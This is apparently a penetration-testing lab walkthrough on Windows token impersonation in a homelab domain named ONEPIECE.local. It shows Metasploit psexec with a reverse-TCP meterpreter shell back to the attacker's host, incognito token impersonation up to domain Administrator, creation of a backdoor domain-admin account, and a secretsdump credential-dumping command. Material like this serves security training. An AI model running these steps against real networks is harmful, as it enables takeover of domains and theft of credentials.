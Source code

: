 # VI. Token Impersonation Overview

Tokens are temporary keys that give us access to a system/network without having to provide credentials each time you access a file. Just like cookies for computers.

There are two types:

- **Delegate:** Created for logging into a machine or Remote Desktop.
- **Impersonate:** “non-interactive” such as attaching a network drive or a domain logon script.

There are many tools that can be used for Token Impersonation but we’ll start off with good ‘ol metasploit.

```bash
msf6 > use windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set rhosts 10.0.2.11
rhosts => 10.0.2.11
msf6 exploit(windows/smb/psexec) > set smbuser franky
smbuser => franky
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
msf6 exploit(windows/smb/psexec) > set smbdomain ONEPIECE.local
smbdomain => ONEPIECE.local
msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] 10.0.2.11:445 - Connecting to the server...
[*] 10.0.2.11:445 - Authenticating to 10.0.2.11:445|ONEPIECE.local as user 'franky'...
[*] 10.0.2.11:445 - Selecting PowerShell target
[*] 10.0.2.11:445 - Executing the payload...
[+] 10.0.2.11:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (201798 bytes) to 10.0.2.11
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.11:61410) at 2024-05-09 09:36:21 -0400

meterpreter > shell
Process 5964 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
 whoami
nt authority\system

C:\Windows\system32>^C
Terminate channel 1? [y/N]  y
meterpreter > load incognito
Loading extension incognito...Success.

meterpreter > list_tokens -u

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
ONEPIECE\Franky
Window Manager\DWM-1

Impersonation Tokens Available
========================================
No tokens available

```

From here, login into the user machine.

We’ve successfully impersonated the `franky` user, to check:

```bash
meterpreter > impersonate_token onepiece\\franky
[+] Delegation token available
[+] Successfully impersonated user ONEPIECE\Franky
meterpreter > shell
Process 5164 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
onepiece\franky
```

Close the shell again with `CTRL +C`

If we want to go back to the previous user (`NT AUTHORITY\SYSTEM`):

```bash
meterpreter > rev2self
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Next, we’ll try to impersonate the administrator account, log out of the current user in the windows machine and login as admin.

Go back to our meterpreter shell, the administrator account is on the list as well. 

```bash
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
Font Driver Host\UMFD-2
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
ONEPIECE\Administrator
ONEPIECE\Franky
Window Manager\DWM-1
Window Manager\DWM-2

Impersonation Tokens Available
========================================
No tokens available

meterpreter > impersonate_token ONEPIECE\\administrator
[+] Delegation token available
[+] Successfully impersonated user ONEPIECE\Administrator

meterpreter > shell
Process 4468 created.
Channel 3 created.
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
onepiece\administrator
```

Nice..now let’s create a new user with the credentials `brook:Password1@` and make it a domain admin.

```bash
C:\Windows\system32>user /add brook Password1@ /domain 
user /add brook Password1@ /domain 
'user' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows\system32>net user /add brook Password1@ /domain
net user /add brook Password1@ /domain
The request will be processed at a domain controller for domain ONEPIECE.local.

The command completed successfully.

C:\Windows\system32>net group "Domain Admins" brook /ADD /DOMAIN
net group "Domain Admins" brook /ADD /DOMAIN
The request will be processed at a domain controller for domain ONEPIECE.local.

The command completed successfully.
```

Once that’s done, we can check by using secretsdump.

```bash
secretsdump.py ONEPIECE.local/<new-user>:'<password>'@DC-IP  
```